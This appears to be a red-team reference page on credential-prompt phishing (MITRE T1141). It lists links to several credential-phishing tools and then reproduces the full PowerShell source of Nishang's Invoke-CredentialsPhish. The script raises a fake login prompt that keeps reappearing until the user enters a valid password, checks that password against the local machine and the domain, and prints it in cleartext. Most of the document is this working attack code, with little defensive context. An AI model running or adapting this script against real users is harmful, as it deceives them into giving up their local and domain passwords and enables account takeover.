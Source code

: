 `````
https://attack.mitre.org/techniques/T1141/
https://enigma0x3.net/2015/01/21/phishing-for-credentials-if-you-want-it-just-ask/
https://github.com/enigma0x3/Invoke-LoginPrompt
https://github.com/samratashok/nishang/blob/master/Gather/Invoke-CredentialsPhish.ps1
https://github.com/bitsadmin/fakelogonscreen
https://github.com/Pickfordmatt/SharpLocker
https://malicious.link/post/2015/powershell-popups-and-capture/
https://github.com/Dviros/CredsLeaker
https://github.com/thelinuxchoice/lockphish
`````

```
function Invoke-CredentialsPhish
{
<#
.SYNOPSIS
Nishang script which opens a user credential prompt.

.DESCRIPTION
This payload opens a prompt which asks for user credentials and does not go away till valid local or domain credentials are entered in the prompt.

.EXAMPLE
PS > Invoke-CredentialsPhish

.LINK
http://labofapenetrationtester.blogspot.com/
https://github.com/samratashok/nishang
#>

[CmdletBinding()]
Param ()

    $ErrorActionPreference="SilentlyContinue"
    Add-Type -assemblyname system.DirectoryServices.accountmanagement 
    $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext([System.DirectoryServices.AccountManagement.ContextType]::Machine)
    $domainDN = "LDAP://" + ([ADSI]"").distinguishedName
    while($true)
    {
        $credential = $host.ui.PromptForCredential("Credentials are required to perform this operation", "Please enter your user name and password.", "", "")
        if($credential)
        {
            $creds = $credential.GetNetworkCredential()
            [String]$user = $creds.username
            [String]$pass = $creds.password
            [String]$domain = $creds.domain
            $authlocal = $DS.ValidateCredentials($user, $pass)
            $authdomain = New-Object System.DirectoryServices.DirectoryEntry($domainDN,$user,$pass)
            if(($authlocal -eq $true) -or ($authdomain.name -ne $null))
            {
                $output = "Username: " + $user + " Password: " + $pass + " Domain:" + $domain + " Domain:"+ $authdomain.name
                $output
                break
            }
        }
    }
}
```
